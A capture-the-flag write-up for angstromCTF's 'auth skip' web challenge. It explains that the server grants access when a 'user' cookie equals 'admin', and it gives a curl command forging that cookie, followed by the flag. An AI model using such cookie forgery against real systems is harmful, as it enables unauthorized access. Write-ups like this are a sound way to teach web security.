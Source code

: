 #### Challenge:

Clam was doing his angstromCTF flag% speedrun when he ran into [the infamous timesink](https://auth-skip.web.actf.co) known in the speedrunning community as "auth". Can you pull off the legendary auth skip and get the flag?

[Source](./index.js ":ignore")

---

#### Solution:

The server checks the value of cookie user and if the value is equal to admin it returns the flag value. We set the cookie value using curl.

```bash
curl -v --cookie "user=admin" https://auth-skip.web.actf.co/ 
```

---

<details><summary>FLAG:</summary>

```
actf{passwordless_authentication_is_the_new_hip_thing}
```

</details>
<br/>
